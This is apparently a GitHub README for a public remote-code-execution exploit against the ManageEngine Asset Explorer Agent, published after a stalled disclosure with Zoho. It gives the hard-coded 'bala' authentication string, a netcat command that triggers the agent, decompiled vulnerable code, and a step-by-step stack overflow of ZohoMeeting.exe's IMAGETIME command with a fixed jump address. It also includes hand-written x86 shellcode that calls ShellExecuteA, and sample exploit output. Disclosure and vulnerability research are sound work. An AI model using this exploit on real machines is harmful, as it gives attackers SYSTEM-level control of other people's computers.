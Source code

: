# ManageEngine Asset Explorer Agent - Remote Code Execution as SYSTEM

So I'm annoyed with these guys, 6 months later and no fixes despite several product releases and updates, `aeagent.exe` has been changed, but it doesn't fix anything, the `ZohoMeeting.exe` hasn't been changed at all and has the same MD5 as before.

They have a Bug Bounty program, but only want to pay for XSS vulnerabilities, my name should be here: https://www.zoho.com/security/hall-of-fame.html - but I am no good with Burp and Firebug... maybe if I made this trigger XSS on one of their sites they'd do something about it.

## Usage

Ports 9000 and 10443 must be accessible on the target machine for the exploit to work. We provide an example shellcode which calls `ShellExecuteA` and then `exit()` and allows you to pass the command to execute as an argument to the script.

To launch Calculator on 192.168.203.100, use:

```
$ ./asset-exploder.py 192.168.203.100 shellcode/payload-ShellExecuteA.bin calc

 ▄▄▄        ██████   ██████  ██▓███   ██▓     ▒█████  ▓█████▄ ▓█████  ██▀███  
▒████▄    ▒██    ▒ ▒██    ▒ ▓██░  ██▒▓██▒    ▒██▒  ██▒▒██▀ ██▌▓█   ▀ ▓██ ▒ ██▒
▒██  ▀█▄  ░ ▓██▄   ░ ▓██▄   ▓██░ ██▓▒▒██░    ▒██░  ██▒░██   █▌▒███   ▓██ ░▄█ ▒
░██▄▄▄▄██   ▒   ██▒  ▒   ██▒▒██▄█▓▒ ▒▒██░    ▒██   ██░░▓█▄   ▌▒▓█  ▄ ▒██▀▀█▄  
 ▓█   ▓██▒▒██████▒▒▒██████▒▒▒██▒ ░  ░░██████▒░ ████▓▒░░▒████▓ ░▒████▒░██▓ ▒██▒
 ▒▒   ▓▒█░▒ ▒▓▒ ▒ ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░░ ▒░▓  ░░ ▒░▒░▒░  ▒▒▓  ▒ ░░ ▒░ ░░ ▒▓ ░▒▓░
  ▒   ▒▒ ░░ ░▒  ░ ░░ ░▒  ░ ░░▒ ░     ░ ░ ▒  ░  ░ ▒ ▒░  ░ ▒  ▒  ░ ░  ░  ░▒ ░ ▒░
  ░   ▒   ░  ░  ░  ░  ░  ░  ░░         ░ ░   ░ ░ ░ ▒   ░ ░  ░    ░     ░░   ░ 
      ░  ░      ░        ░               ░  ░    ░ ░     ░       ░  ░   ░     
                                                       ░                      

[-] Connecting to 192.168.203.100 port 9000
[-] RemoteControl was running
[-] Enabling RemoteControl via aeagent.exe
[-] Enabled, waiting for RemoteControl connection
[+] Connected to RemoteControl
[+] Connection ready
[+] Send payload
[*] Success

$
```

## Technical Details

The Asset Explorer Agent accepts commands on port 9000, they are in the format of
`"prefixc#auth#cmd#arg\n"`, however it uses a hard-coded authentication string of `bala` meaning anybody can send commands to the agent and it will run them. The commands supported are:

 * NEWSCAN - Runs `aeagent.bat newscan`
 * SCAN - Runs `aeagent.bat scan`
 * DELTASCAN - Runs `aeagent.bat deltascan`
 * RDS - Forcibly start Remote Control without notifying user
 * RDS-PROMPT - Ask if the user wants to accept Remote Control
 * STOPRDS - Kills the `RemoteControl.exe` process / service
 * UPGRADE - Calls `agentcontroller.exe upgrade`
 * UNINSTALL - Calls `agentcontroller.exe uninstall`

Unfortunately we couldn't find an easy and straightforward way to exploit `aeagent.exe` directly to gain code execution, it only reads 100 bytes at a time, but it should be possible to spray the heap with crap and leave off the last `#`.

Commands can be invoked by hand with netcat, like:

```
echo 'PARAM1#bala#CMD#PARAM2#...' | ncat --ssl $TARGET-IP 9000
```

Which is parsed by the following code:

```c
        if ( j_ssl_read_sock(client_ssl_sock, cmd_buf, 100) > 0 )
          break;
        Log(".\\.\\main\\src\\AEAgent.cpp", 160, 3, "Unable to receive message size");
        if ( cmd_buf )
          free(cmd_buf);
        j_ssl_close_sock(client_ssl_sock);
      }
      cmd_cmd = 0;
      v16 = strtok(cmd_buf, "#");
      if ( v16 )
      {
        g_cmd_prefix = j_mbtowcs(v16);
        v17 = strtok(0, "#");
        if ( v17 )
        {
          g_cmd_auth = j_mbtowcs(v17);
          cmd_cmd = strtok(0, "#");
          if ( cmd_cmd )
          {
            cmd_str = strtok(0, "#");
            cmd_timeout = cmd_str;
            if ( cmd_str )
            {
              dword_493E60 = j_mbtowcs(cmd_str);
              v19 = strtok(0, "#");
              if ( v19 )
                g_cmd_who = j_mbtowcs(v19);
            }
            if ( !memcmp(cmd_cmd, "RDS-PROMPT", 11u) && cmd_timeout )
              timeout_ = atol_(cmd_timeout);
          }
        }
      }
      if ( !g_cmd_auth || wcscmp(g_cmd_auth, L"bala") )
      {
        Log(".\\.\\main\\src\\AEAgent.cpp", 443, 3, "Failed to authenticate");
        goto LABEL_113;
      }
```

Anyway, the most interesting functionality here is the `RDS` command, it launches `RemoteControl\ZohoMeeting.exe` as SYSTEM, which accepts connections on port 10443.

ZohoMeeting.exe is hilarious and full of stack overflows. The NX and DYNAMICBASE flags aren't set on the PE file so it runs at a static address and has an executable stack, *slowclap*, good job guys, this is 2016. We recommended that the least effort fix that Zoho should implement is simply re-building the executable with ASLR and NX enabled which would make this less trivial to exploit.

Once launched ZohoMeeting.exe will send the contents of the clipboard over the socket and other such fun things, you could use the variety of built-in commands to own the machine, but the easiest way we found was to overflow the `IMAGETIME` command:

```c
// cmdbuf = "IMAGETIME X Y"
char __stdcall cmd_IMAGETIME(const char *cmdbuf)
{
  char *copiedstr; // ebx@1
  char str2[20]; // [sp+Ch] [bp-28h]@1
  char str1[20]; // [sp+20h] [bp-14h]@1

  copiedstr = (char *)calloc(1u, strlen(cmdbuf) + 1); // arbitrary sized buffer
  strcpy(copiedstr, cmdbuf);                          // cannot contain nulls
  MemoryMoveLeft(copiedstr, strlen("IMAGETIME "));    // remove cmd prefix
  sscanf(copiedstr, "%s %s", str1, str2);             // into 2x 20 byte fields
  free(copiedstr);                                    
  sub_448B20();
  return sub_447810(str1, str2);
}
```

First we fill up `str1` with stuff and overwrite the return address with `0x0048048d: jmp ecx`, where `ecx` is the address of `str2`. In `str2` we execute some code which jumps to the position of our arbitrarily sized block of shellcode appended to the end of the string (but not parsed by sscanf).

For all the shell & ROP code we need to avoid null bytes and newlines, so we hand crafted some to call a wrapper for `ShellExecuteA` and then `exit`, using data appended to the shellcode as the command to execute.

```asm
BITS 32

; This function calls ShellExecuteA
; ebx will be 430920h
xor ebx, ebx
add ebx, 0x43
shl ebx, 8
add ebx, 0x09
shl ebx, 8
add ebx, 0x20

; Then call ShellExecuteA("...")
; Shellcode address is EAX
; Command string appended to end
add eax, 0x2A
push eax
call ebx

; Then call 40143Bh:
; 	push 0
; 	call ds:exit
;
xor ebx, ebx
add ebx, 0x40
shl ebx, 8
add ebx, 0x14
shl ebx, 8
add ebx, 0x3B
call ebx

```

## Timeline

 * 19 May 2016 - Initial contact with Zoho Security
 * 19 May - Informed them of hard-coded auth, self-signed CA & PK and RCE.
 * 20 May - Zoho setup PGP encrypted e-mail, PoC sent
 * 23 May - 'We are currently working with the appropriate team'...
 * 13 June - Any update?
 * 14 June - Working to get an issue fixed
 * 28 June - Notify them of deadline and release
 * 30 June - Hellooo?
 * 11 July - 'Our team has started working to get this fixed', 'If its crossing the grace period, please proceed from your side.'
 * 08 August - Any update?
